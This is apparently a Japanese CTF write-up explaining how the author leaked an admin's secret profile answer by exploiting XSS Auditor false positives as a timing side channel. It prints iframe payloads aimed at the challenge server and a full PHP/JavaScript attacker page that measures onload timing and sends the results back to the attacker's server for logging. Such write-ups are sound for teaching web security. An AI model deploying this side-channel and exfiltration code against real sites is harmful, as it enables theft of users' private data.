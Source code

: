 秘密の質問がプロフィールページに表示されているんですが、この変更を禁止する目的でJavaScriptが用いられているのでした！
このコードのみ実行できるようにする目的で、部分的なunsafe-inlineが許容されていたようです。

もし、この小さなJavaScriptコードを盗むことができれば、adminの好きなフルーツを知ることできそうです。
このページでは、`X-XSS-Protection: 1; mode=block`というヘッダが送信されていて、XSS Auditorがブロックモードで動作することが期待されていて、adminのブラウザもこれに従っているでしょう。
こういう場合に、XSS Auditorの誤検出を利用して、ページ内のスクリプトを盗む手法が存在します。

[ブラウザのXSSフィルタを利用した情報窃取攻撃 | MBSD Blog](https://www.mbsd.jp/blog/20160407_2.html)

これを利用できそうです。（できました。）
以下のような2つのIFRAMEを表示させれば、どちらか一方をXSS Auditorがブロックするはずです。

```html
<iframe src='http://34.97.74.235:10033/profile?onchange="melon.checked=true;"'></iframe>
<iframe src='http://34.97.74.235:10033/profile?onchange="melon.checked=false;"'></iframe>
```

この性質を利用し、攻撃者のページで2つのIFRAMEを開かせて、どちらがブロックされたかを判別すれば良いですね。
IFRAME要素の`contentWindow.length`を見ると、XSS Auditorが作動したか否かを簡単に判別できるようでしたが、手元で試したときに何故かうまくいかなかったので（これは勘違いだったかもしれませんが）、`onload`が発火するまでの時間を計測するちょっと面倒な方法で判別しています。
XSS Auditorが作動すると、関連リソースの読み込みが走らないので、`onload`が早く呼ばれるはずです。

以下のように実装し、IFRAMEをプロフィールに埋め込んで、adminにアクセスさせました。
JavaScriptの記法モダンだったりレガシーだったりしていて、気持ち悪いんですが、終了ギリギリで解いていたためいろいろ焦っていて、見当違いの試行錯誤をしていた名残です。

```php
<?php
	if(array_key_exists("save", $_GET)){
		file_put_contents("save.txt", $_GET["save"] . PHP_EOL, FILE_APPEND | LOCK_EX);
		echo("OK!");
	}else{
?>
<html>
<body>
<script>

function test(key, val){
	return new Promise(function(resolve){
		const iframe = document.createElement("iframe");
		iframe.onload = function(){
			iframe.remove();
			resolve([key, val, new Date().getTime() - time]);
		};
		iframe.src = `http://34.97.74.235:10033/profile?onchange="${key}.checked=${val};"`;
		const time = new Date().getTime();
		document.body.appendChild(iframe);
	});
}

(async () => {
	const results = [];
	for(let i = 0; i < 1; i++){
		results.push([
			await test("mushroom", true),
			await test("mushroom", false),
		]);
	}
	location.href = "?save=" + results;
})();
</script>
</body>
</html>
<?php
	}
?>
```
